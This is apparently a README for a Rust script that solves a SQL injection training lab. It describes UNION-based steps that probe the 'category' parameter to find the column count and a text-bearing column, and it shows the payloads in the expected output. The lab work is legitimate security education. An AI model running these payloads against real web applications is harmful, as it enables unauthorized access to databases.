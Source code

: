 # Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.
4. After determining the number of columns, replace each column with the desired text one at a time.
5. Repeat this process until you receive a valid response.

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
[#] Injection parameter: category
[#] Desired text: tJRvKS
[*] Trying payload: ' UNION SELECT null-- -
[*] Trying payload: ' UNION SELECT null, null-- -
[*] Trying payload: ' UNION SELECT null, null, null-- -
[#] Number of columns: 3
[*] Trying payload: ' UNION SELECT 'tJRvKS', null, null-- -
[*] Trying payload: ' UNION SELECT null, 'tJRvKS', null-- -
[#] the column containing text: 2
🗹 Check your browser, it should be marked now as solved
```
